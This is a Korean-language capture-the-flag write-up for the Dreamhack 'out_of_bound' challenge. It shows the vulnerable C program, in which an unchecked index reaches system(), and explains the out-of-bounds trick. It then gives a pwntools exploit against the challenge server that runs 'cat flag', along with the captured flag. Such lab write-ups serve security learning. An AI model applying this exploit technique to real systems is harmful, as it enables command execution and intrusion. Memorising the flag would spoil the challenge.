 # [Dreamhack] out_of_bound

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
> “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [out_of_bound.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533208/out_of_bound.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160265427-b8d37842-7c62-4c9d-8f71-75d39b986e19.png)

## Analysis

```c
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

`idx`의 범위 검사를 거치지 않아서 OOB가 발생한다.

![image](https://user-images.githubusercontent.com/102066383/160265549-c4d7696b-e876-40bd-aff2-271a223361a1.png)

`command`와 `name`은 메모리 상에 위 사진과 같이 위치해 있는데, `name`에 실행시키고 싶은 커맨드 문자열의 주소를 적으면 OOB로 `name`에 접근해서 그 커맨드를 실행시킬 수 있다. `name+0`에 `name+4`(`0x804a0b0`)를 쓰고, `name+4`에는 `cat flag`를 쓰면 `system("cat flag")`가 실행되어 플래그를 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/out_of_bound')
else:
    r = remote('host1.dreamhack.games', 14171)

name = 0x804a0ac  # var <name>

admin_name = p32(name + 4)
admin_name += b'cat flag'

r.sendafter('Admin name: ', admin_name)
r.sendlineafter('What do you want?: ', '19')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 14171: Done
[*] Switching to interactive mode
DH{2524e20ddeee45f11c8eb91804d57296}
```